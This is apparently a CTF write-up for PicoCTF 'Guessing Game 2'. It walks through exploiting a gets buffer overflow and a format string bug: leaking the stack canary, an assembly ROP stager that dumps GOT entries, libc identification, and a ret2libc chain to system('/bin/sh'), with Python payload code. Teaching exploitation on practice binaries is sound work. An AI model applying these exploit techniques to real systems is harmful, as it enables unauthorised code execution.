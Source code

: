 ```yaml
---
layout: post
title: "PicoCTF: Guessing Game 2 - Writeup"
date:   2022-03-12 15:46:00 +0000
categories: ctf binary-exploitation
---
```


# Introduction

This challenge is pretty straightforward and provides a great introduction to the ret2libc method of exploitation.

# Gaining an understanding of the program

The program begins by asking the user to guess a *random* number based on the remainder of the address of `rand` as seen in the code snippet below. When guessed correctly, the program asks for a name and proceeds by printing it to the screen.

```c
#define BUFSIZE 512

long get_random() {
    return rand;
}

int do_stuff() {
    long ans = (get_random() % 4096) + 1;	
    printf("What number would you like to guess?\n");
    char guess[BUFSIZE];
    fgets(guess, BUFSIZE, stdin);
    ...
}

void win() {
    char winner[BUFSIZE];
    printf("New winner!\nName? ");
    gets(winner);
    printf("Congrats: ");
    printf(winner);
    printf("\n\n");
}
```

#### Bug hunting

The program contains two critical vulnerabilities, a buffer overflow abetted by `gets` and a format string vulnerability. Either one of these vulnerabilities could result in code execution, however, running `checksec` on the binary yielded security mitigations employed. 

```bash
➜  Guessing Game 2 checksec vuln
[*] 'Guessing Game 2/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

As you can see, the binary is hardened with [RELRO](https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro), preventing us from leveraging the format string vulnerability to overwrite the Global Offset Table ([GOT](https://en.wikipedia.org/wiki/Global_Offset_Table)). [DEP](https://en.wikipedia.org/wiki/Executable_space_protection), meaning that we cannot use the buffer overflow vulnerability to jump to the stack. Even if the stack was executable we would still be unable to achieve code execution due to the presence of a [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Random_canaries). 

To successfully exploit this binary, we need to leverage the format string vulnerability to leak the stack cookie and use it in the buffer-overflow vulnerability to allow for code execution via a ROP chain. First things first, we need to *guess* the *random* number.

# Bruteforcing the random number {#brute-forcing}

`(get_random() % 4096) + 1` gives the solutions a range from -4095 to +4097 a total of 8192 solutions however we can narrow this down. Firstly, as the function address is coerced to a signed 32-bit integer we know that this integer will be negative as libc is usually based at a high address. Secondly, the addresses of the libc functions always seem to be 16 byte aligned meaning that they go up in increments of 16, massively reducing the range to 256 possible values.

```python
solutions = range(1, -4095, -16)
```

# Leaking the stack canary {#leaking-stack-canary}

Using gdb([gef](https://gef.readthedocs.io/en/master/)) I broke at main, running the gef canary command to find the current stack canary. I used python to generate a format string based on `"%x " * (512 // 3)` and sent it to the program. Counting the distance from the beginning of the stack to the canary gave me an offset of 135. Using offset 135, we can use the format string `"%135$x"` to reliably leak the stack canary.

```bash
gef➤  canary
[+] The canary of process 78855 is at 0xffffd30b, value is 0x88397800
```

```bash
Congrats: 200 f7fa2600 804877d 1 fffffad1 fffffad1 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 f7dd0078 f2f70100 80489fc 8049fbc ffffd098 804888c 0 0 3e8 1 ffffd0b0 f7fa2000 0 f7d9b4ca ffffd31b ffffd174 f7fa2000 f7d9b4ca 1 ffffd174 ffffd17c ffffd0d0 f7fa2000 80487ff 1 ffffd174 f7fa2000 0 ffffd17c 0 eb338acc a7fbe6dc 0 0 0 ffffd17c 0
```

# Leaking libc through a ROP chain

Armed with the ability to leak the stack canary, we can now focus on getting our shell. I tried to avoid having to leak libc instead, making a syscall to `execve` with a ROP chain but there were not enough useful gadgets. Though using `ROPgadget`, I found some helpful gadgets which allowed me to make a ROP chain to dump GOT functions and write to data, I’ll be calling this the stager for brevity.

```as
# Addresses obtained using IDA

.equ DATA_OFFSET, 0x804A000
.equ GOT_IO_GETS_OFFSET, 0x8049FCC
.equ GOT_IO_PRINTF_OFFSET, 0x8049FC8
.equ GOT_IO_FGETS_OFFSET, 0x8049FD0
.equ GOT_GETEGID_OFFSET, 0x8049FD8

.macro print fmt, addr
    .long 0x08048470    # _printf@plt
    .long 0x0804844e    # add esp, 8 ; pop ebx ; ret
    .long \fmt
    .long \addr
    .long 0x0           # padding
.endm

.macro gets buffer
    .long 0x8048480     # gets@plt
    .long 0x804844e     # add esp, 8; pop ebx; ret
    .long \buffer
    .quad 0x0           # padding
.endm

.global _start

_start:
    gets DATA_OFFSET
    print DATA_OFFSET, GOT_IO_GETS_OFFSET
    print DATA_OFFSET, GOT_IO_PRINTF_OFFSET
    print DATA_OFFSET, GOT_IO_FGETS_OFFSET
    print DATA_OFFSET, GOT_GETEGID_OFFSET
    gets DATA_OFFSET
    .long 0x80487FF     # main (restart app)
```

The stager works by waiting for input from stdin and writing it to a writable section in the binary. We are able to use a hardcoded address as the binary is not a PIE. After input is received the stager uses the data written as the format string argument to `printf` and proceeds to use this format string to dump GOT entries. The stager waits for one last input to write to the writable section and then restarts the app by returning to `main`.

#### Getting the stager running

We now need to overwrite the return address to an address we control. Using gef's `pattern create` command to create a string and pass it to the application we'll be able to obtain the offset to the return address. Using the information gained I was able to make this python function.

```python
def create_rop_chain(stack_cookie: int, stager: BinaryIO) -> bytes:
    exploit =  b'A' * 512           # Padding
    exploit += p32(stack_cookie)    # Stack cookie
    exploit += b'A' * 12            # Offset to EIP
    exploit += stager.read()        # EIP
    return exploit
```

#### Finding the libc version on the server

Now that we are able to run our stager we'll pass it `%.4s` as the first argument for the format string and then recieve the GOT entry for `gets`. The stager will send us a 4 byte string containing the address which can be converted to something useable using `int.from_bytes` in python. Now that we have the addresses we can use a [libc database](https://libc.blukat.me/) to find the libc version running on the server so that we can get the offsets of functions in that libc binary. Using this I found the libc version to be `libc6-i386_2.27-3ubuntu1.4_amd64.so`. Thankfully, the libc database search provides us with offsets to useful functions. For the final input to the stager we can send it `/bin/sh` to write to the data section for us to pass it to `system` and get a shell.

![libc database search](/assets/images/libc_database_search.png)

# Popping a shell

Subtracting the GOT entry to `gets` from the offset of `gets` in the libc binary we can find the base address for libc. Using this we can construct the final ROP chain and call `system` with the binary path being a pointer to the data section with the `/bin/sh` string we just wrote using the stager.

```python
exploit =  p32(libc + LIBC_SYSTEM_OFFSET)   # system
exploit += p32(libc + LIBC_EXIT_OFFSET)     # exit when routine complete
exploit += p32(DATA_OFFSET)                 # /bin/sh
```

# The exploit

Here is the complete [source code](https://gist.github.com/aidnzz/5631bc65c38318fe74dd23e0390c9633). Using [pwntools](https://docs.pwntools.com/en/stable/) really simplifies exploit development and features some really good logging utilities.

<script id="asciicast-dKo2JK5qNYfD9ln8n8zp4gKvy" src="https://asciinema.org/a/dKo2JK5qNYfD9ln8n8zp4gKvy.js" async data-size="small"></script>
